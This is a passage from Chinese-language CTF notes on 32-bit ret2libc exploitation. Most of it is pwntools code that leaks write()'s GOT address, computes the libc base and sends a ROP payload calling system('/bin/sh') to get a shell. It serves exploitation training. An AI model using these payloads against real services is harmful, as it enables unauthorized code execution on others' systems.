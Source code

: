    ```python
   p.interactive()
   
   ```

   ![image-20240602213259352](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406022132526.png)





#### 4. write函数溢出（题目里面给出libc的版本32位）

1. 利用write函数的got表和plt表，溢出得到write函数的地址，在计算得到libc_base基地址。

2. 先看汇编下调用write函数时参数的传递：（以32位为例）**长度+地址+1** 构造栈时反过来 **1+地址+长度** 

   ![image-20240530091712374](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012219144.png)

3. 溢出EXP：

   ``````python
   #启动题目所给的so文件，so文件需要在同一目录下
   libc=ELF('libc-2.23.so')
   got = elf.got['write']
   plt = elf.plt['write']
   main_addr = 0x08048825
   
   #构造payload，利用write函数输出write函数的实际地址
   payload = b'a'*(0xe7+4)+p32(plt)+p32(main_addr)+p32(1)+p32(got)+p32(4)
   p.sendline(payload)
   #接受返回的地址
   addr = u32(p.recv(4).ljust(4,b'\x00'))
   print(hex(addr))
   ``````

4. 利用返回的地址计算liba_base，sys_addr，bin_addr地址：

   ``````python
   #计算基地址libabase
   libcbase = addr - libc.sym['write']
   #拿到sys_addr和bin_addr
   sys_addr = libcbase + libc.sym['system']
   str_sh   = libcbase + next(libc.search('/bin/sh'))
   print(hex(sys_addr),hex(str_sh))
   
   #最后利用计算的函数地址和'bin/sh'地址，栈溢出构造ROP
   payload = b'a'*(0xe7+4)+p32(sys_addr)+p32(0)+p32(str_sh)
   p.sendline(payload)
   p.interactive()
   ``````


#### 5. write函数溢出（题目没给给出libc的版本32位）

1. 题目地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#铁人三项(第五赛区)_2018_rop)

2. 题目没有提供后门函数，但是给了栈溢出和write函数调用：
